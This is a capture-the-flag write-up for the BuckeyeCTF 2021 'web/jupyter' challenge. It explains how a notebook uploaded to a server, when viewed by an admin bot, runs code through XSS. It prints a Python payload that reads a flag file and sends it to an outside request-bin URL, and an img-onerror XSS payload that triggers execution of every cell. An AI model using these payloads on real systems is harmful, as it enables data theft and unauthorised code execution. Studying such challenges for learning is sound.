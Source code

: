 # BuckeyeCTF 2021 - `web/jupyter`

## Task Description

Upload a Jupyter notebook and the admin bot will take a look at it :)

URL: http://3.21.105.111

Note: Try to be gentle with the server

## Solution Summary

Use HTML cell to place XSS on the Jupyter notebook which forces the bot to run a code cell with Python code that exfiltrates the flag.

## Task Analysis

This challenge contains two components: the `app` and the `bot`. The `app` is a web app that serves a simple file upload for [Jupyter notebooks](https://jupyter.org/),
which are documents that contain Python code cells and display their output.

![alt text](https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/upload.png)

This will post it to the `/upload_ipynb` endpoint on the app. The file will be given a random name ending in `.ipynb` and written to an uploads folder.
The notebook will then be ran with `jupyter trust` and served at the URL `"{APP_URL}:8888/notebooks/{filename}"`.
The app will then post to the bot's `/visit` endpoint with the URL of the notebook it is hosting in the body.
Note that only the app server can send requests to this endpoint as it has to send a secret `BOT_TOKEN` along with it.

When the bot receives a valid URL on this endpoint, it will visit it using Puppeteer.
After a timeout, it will then call `window.IPython.notebook.close_and_halt()` to gracefully stop and close the Jupyter notebook that it is viewing.

The app also a contains `run.sh` which immediately moves the file containing the flag to `/flag_{rand}.txt`, where `rand` is a random hex string.
Our goal therefore is to read this file.

## Solution Walkthrough

Since Jupyter notebooks contain code cells that execute Python code on the local machine, we should be able to get the flag if the bot runs a code cell while viewing the Jupyter notebook.
Even though the bot is viewing the notebook, executed code cells will run on the app, since the app is the server hosting the Jupyter notebook.
This is good because the app has the flag file, not the bot.

I created a new notebook by downloading Jupyter and running `jupyter notebook` to open my own web enviornment.
I then wrote a simple Python payload in a code cell that exfiltrates the flag.

```python
import urllib
import glob

endpoint = 'https://enbnoedu5p8tj.x.pipedream.net/'

path = "/flag*.txt"
flag = ''

for filename in glob.glob(path):
    with open(filename, 'r') as f:
        flag = f.readline()

urllib.request.urlopen(endpoint + flag)
```

The purpose of `glob` is to find the flag's filename, since part of the filename is random.
The content of this file is then read and sent to a server created with [request.bin](https://requestbin.com/).

This code cell works when the user decides to run it.
However, there is still a problem: when the bot reads the Jupyter notebook, it doesn't actually run any of the code cells.

I noticed in the bot that `window.IPython.notebook.close_and_halt()` gets called in order to stop the notebook.
This implies that Jupyter has some Javascript functions that we could possibly leverage to get the bot to run the code cell.
After some digging, I found that running the Javascript `IPython.notebook.execute_all_cells()` on the page will run all code cells.
I tried to write a script that would execute only one cell, but I had issues with this working consistently.

Now all we need is some XSS on our Jupyter notebook page to run this Javascript.
I found that in Jupyter you can have a code cell output HTML by using the following syntax in a code cell.

```html
%%html
<!--
HTML goes here
-->
```

The HTML outputed when this code cell is ran will actually persist even if the notebook is closed and reopened (as long as you save it beforehand).
This generated HTML could be the perfect place to get some XSS running.

When I tried running my XSS using `script` tags, I sometimes had issues with the page not running the script or running it at the wrong time.
There are probably many different ways of solving this (I think you can even edit the notebook's source code directly),
but I decided to just use the quick solution of having an invalid `img` element that runs my XSS payload via `onerror`.

```html
%%html
<img src='http://example.com' onerror='if(!window.loaded) IPython.notebook.execute_all_cells(); window.loaded = true' />
```

The purpose of creating the `window.loaded` variable is just so that the script doesn't keep running itself.
Since I am executing **all** cells, the HTML will be regenerated and the event will fire again.

This had the desired effect of running all of the cells whenever I opened the notebook!
Thus all that was left was to upload this to the app server and have the bot open it for me and send me the flag.

## Solution Source

https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/notebook.ipynb

